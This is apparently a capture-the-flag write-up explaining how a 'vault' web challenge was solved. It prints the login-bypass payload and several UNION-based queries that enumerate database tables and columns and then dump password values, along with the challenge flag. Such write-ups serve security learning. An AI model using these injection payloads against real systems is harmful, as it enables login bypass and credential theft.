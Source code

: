 The challenge was a vault which contains the flag in the database.

The site was vulnerable to sql injection. The code was broken using single quote

![error](Screenshot from 2023-04-17 23-13-23.png)

So we were able to get through the check using the payload `' or 1=1 -- -`

This gave the result:-

![success](Screenshot from 2023-04-17 23-23-08.png)

This gave no information about the users. Then in the page source the information we need was given as html comments. 

![Source_code](Screenshot from 2023-04-17 23-31-49.png)

Here I did `0' union select group_concat(table_name),null from information_schema.tables where table_schema=database() -- -` To get the table name = **users** 

and did  `0' union select group_concat(column_name),null from information_schema.columns where table_name= "users" -- -` to get the column names = **username,password** 

So I used Union attack and the payload was `0' union select group_concat(password),null from users -- -` 

- group_concat()
    
    This sql function us used to concat every row of a given column into a single line.
    

![Flag](Screenshot from 2023-04-17 23-38-38.png)

This gave the flag 

***flag{y0u_ar3_st1ll_a_noob31e}***